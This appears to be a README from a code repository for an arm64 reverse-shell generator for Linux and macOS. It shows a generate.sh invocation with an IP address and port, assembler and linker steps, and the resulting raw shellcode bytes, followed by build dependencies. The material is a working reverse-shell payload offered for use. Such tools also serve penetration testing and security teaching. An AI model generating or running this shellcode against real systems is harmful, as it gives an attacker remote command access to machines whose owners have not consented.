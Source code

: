 # arm64 reverse shell

tested on Debian 10 & M1 macOS 12.3

[![asciicast](https://asciinema.org/a/483086.svg)](https://asciinema.org/a/483086)

## shellcode

It'll give you shellcode if you pass `shellcode` in the last argument.

**example**

```bash
$ ./generate.sh 192.168.64.1 4444 shellcode

as linux-reverseshell.s -o linux-reverseshell.o
ld -o linux-reverseshell linux-reverseshell.o
\xc8\x18\x80\xd2\x01\xfd\x47\xd3\x20\xf8\x7f\xd3\xe2\x03\x1f\xaa\xe1\x66\x02\xd4\xe4\x03\x20\xaa\x21\xf8\x7f\xd3\x21\x82\xab\xf2\x01\x18\xd5\xf2\x01\x28\xe0\xf2\xe1\x8f\x1f\xf8\xe1\x63\x22\x8b\x02\x02\x80\xd2\x68\x19\x80\xd2\xe1\x66\x02\xd4\x41\xfc\x42\xd3\xe0\x03\x24\xaa\x21\xfc\x41\xd3\xe2\x03\x1f\xaa\x08\x03\x80\xd2\xe1\x66\x02\xd4\xea\x03\x1f\xaa\x5f\x01\x01\xeb\x21\xff\xff\x54\xe3\x45\x8c\xd2\x23\xcd\xad\xf2\xe3\x65\xce\xf2\x03\x0d\xe0\xf2\xe3\x8f\x1f\xf8\xe0\x63\x21\x8b\xa8\x1b\x80\xd2\xe1\x66\x02\xd4
```

## dependencies

to build you'll need:

 - make
 - ld
 - Xcode (on mac)
 
